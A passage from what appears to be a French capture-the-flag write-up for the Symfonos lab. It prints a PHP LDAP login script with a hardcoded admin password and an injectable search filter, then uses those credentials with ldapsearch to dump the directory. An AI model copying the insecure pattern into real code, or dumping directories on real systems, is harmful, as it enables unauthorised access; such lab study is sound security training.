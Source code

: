 ```php
    return FALSE;
  }

  $bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

  if (!$bind) {
    return FALSE;
  }

  $filter = "(&(uid=$username)(userPassword=$password))";
  $result = ldap_search($ldap_ch, "dc=symfonos,dc=local", $filter);

  if (!$result) {
    return FALSE;
  }

  $info = ldap_get_entries($ldap_ch, $result);

  if (!($info) || ($info["count"] == 0)) {
    return FALSE;
  }

  return TRUE;

}

if(isset($_GET['username']) && isset($_GET['password'])){

$username = urldecode($_GET['username']);
$password = urldecode($_GET['password']);

$bIsAuth = authLdap($username, $password);

if (! $bIsAuth ) {
	$msg = "Invalid login";
} else {
        $_SESSION["loggedin"] = true;
	header("location: home.php");
	exit;
}
}
?>
```

Avec ces identifiants je peux dumper la base LDAP :

```shellsession
$ ldapsearch -x -H ldap://192.168.56.116:389/ -D "cn=admin,dc=symfonos,dc=local" -w qMDdyZh3cT6eeAWD -b "dc=symfonos,dc=local" "(objectclass=*)"
# extended LDIF
#
# LDAPv3
# base <dc=symfonos,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# symfonos.local
dn: dc=symfonos,dc=local
objectClass: top
objectClass: dcObject
objectClass: organization
o: symfonos
dc: symfonos
```